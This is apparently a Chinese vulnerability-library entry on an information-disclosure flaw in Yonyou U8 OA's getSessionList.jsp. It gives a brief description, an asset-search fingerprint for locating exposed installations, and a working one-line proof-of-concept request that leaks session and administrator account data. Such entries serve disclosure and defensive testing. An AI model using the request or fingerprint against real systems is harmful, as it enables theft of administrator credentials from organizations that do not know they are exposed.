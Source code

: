 # 用友 U8 OA getSessionList.jsp 敏感信息泄漏漏洞

## 漏洞描述

用友 U8 OA getSessionList.jsp文件，通过漏洞攻击者可以获取数据库中管理员的账户信息

## 漏洞影响

<a-checkbox checked>用友 U8 OA</a-checkbox></br>

## 网络测绘

<a-checkbox checked>"用友U8-OA"</a-checkbox></br>

## 漏洞复现

登录页面

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1645976459870-e87ed43e-2b7e-432d-b0ca-4909d02748be.png)

验证POC

```javascript
/yyoa/ext/https/getSessionList.jsp?cmd=getAll
```

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1645976484402-84e294eb-dd29-4cfa-b8d7-d7ce7b07a7ce.png)